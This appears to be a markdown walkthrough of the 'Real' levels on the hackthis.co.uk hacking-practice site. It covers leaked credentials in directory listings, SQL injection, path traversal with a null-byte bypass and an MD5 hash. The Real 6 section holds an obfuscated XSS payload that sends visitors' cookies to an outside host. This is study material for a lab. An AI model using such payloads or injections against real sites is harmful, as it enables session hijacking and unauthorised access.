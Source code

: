 # Real Levels
## Real 1
Always check deleted folder!
## Real 2
Inspect source code and find the JS.
```javascript
var username= document.getElementById('username').value;
	var password= document.getElementById('password').value;
	URL= "members/" + username + " " + password + ".htm";
	path = URL;
```
This seems interesting. Navigate to ```/members``` abd get the dir listing.
```
Index of /levels/extras/real/2/members/

../
anna god.htm                                       28-Nov-2014 12:27                   0
dave fish_r_friends.htm                            28-Nov-2014 12:27                   0
jack kack.htm                                      28-Nov-2014 12:27                   0
librarian sweetlittlebooks.htm                     28-Nov-2014 12:27                   0
luke 9312.htm                                      28-Nov-2014 12:27                   0
```
Log in as the librarian.
## Real 3
Discover login.js file.
```javascript
m[m.length] = new Array("66913", "78323683", "Ksrg", "/oiAguA/ykdp/8?rF=xhyvAttm");
m[m.length] = new Array("644543", "859223813", "Krteb", "/ohCeux/rlho/6?ww=wjwzohhw");
m[m.length] = new Array("16130", "78323683", "Osqqrxz", "kxyr://FED.mrslnn.kvs");
```
This can be decoded by brute force, however the easier method would be to fuzz the directory for other js files and ultimately land on [members.js](https://www.hackthis.co.uk/levels/extras/real/3/members.js)

## Real 4
- Access PlanetBid with and admin account with a password list
- Get members db and bid db, which helps to find that Revoked.Mayhem’s id is ```31``` and email is ```Caffe@hotbiz.com```
- The only transaction for the user is involves id ```11``` - ```nemisis:jfelliot@mail.com```
- Get nemisis' password hash from members db by modifying the URL from ```?members&1=user&2=email``` to ```members&1=user&2=pass```. Click "clear logs".
- MD5 hash is ```742929dcb631403d7c1c1efad2ca2700```
- Log in to email client with found credentials, find an email with Safe Transfer account details
- Log in to Transfer, send the $$$ back to 64957746

## Real 5

Pages are displayed using GET, e.g. ?p=index

Changing p to random stuff gets this (?p=lul)
```
Warning: file_get_contents(lul.html) [function.file-get-contents]: failed to open stream: No such file or directory in pages on line 22
```
Trying to access the source code for admin.php with ?p=../admin.php

```Warning: file_get_contents(../admin.php.html) ```

Using null byte to escape the parameter before '.html' - ?p=admin.php%00

```php
<?php
if(isset($_GET['password']) ){
		if( $_GET['password'] == 'princesslovetoast' ){
			header("Location: /levels/real/5?p=princesslovetoast");
		}
}?>
```
## Real Xmas

Letter form sends a POST request to mod.php?submit.
Getting rid of submit takes to login page.
Simple SQLi does the trick.
```
SELECT * FROM users WHERE name = '' OR '1'='1';
```
Open index.php and paste the code from the alternative source.

## Real 6

Upload t.php to your server.
```
http://skreamdev.com/t.php?c=*cookie*
```
Post to the form line by line from bottom to top.

```html
<script>/*\
*/var i=new Image();/*\
*/i.src="http://skr"+/*\
*/"eamdev.com"+/*\
*/"/t.php?c"+/*\
*/"="+document.cookie;/*\
*/</script>
```
Wait for the vicim to visit the page and collect the flag.
